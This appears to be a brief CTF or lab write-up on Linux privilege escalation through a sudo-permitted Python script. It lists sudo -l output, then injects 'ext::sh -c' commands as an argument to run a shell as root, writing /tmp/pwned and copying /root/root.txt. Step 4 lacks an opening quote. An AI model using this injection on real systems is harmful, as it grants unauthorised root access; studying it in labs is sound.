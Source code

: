 It is possible when permissions are assigned incorrectly.

https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses

1. Test sudo permissions for user
```
username@machine1:~$ sudo -l
Matching Defaults entries for prod on machine1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User username may run the following commands on machine1:
    (root) /usr/bin/python3 /[path_to_file]/[python_file].py *
```


2. Test sudo
```
sudo /usr/bin/python3 /[path_to_file]/[python_file].py 'ext::sh -c touch% /tmp/pwned'
```
<br/>

3. Cat file
```
sudo /usr/bin/python3 /[path_to_file]/[python_file].py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'
```
<br/>

4. Display the file
```
sudo /usr/bin/python3 /[path_to_file]/[python_file].py ext::sh -c cat% /root/root.txt% >% /tmp/root'
```

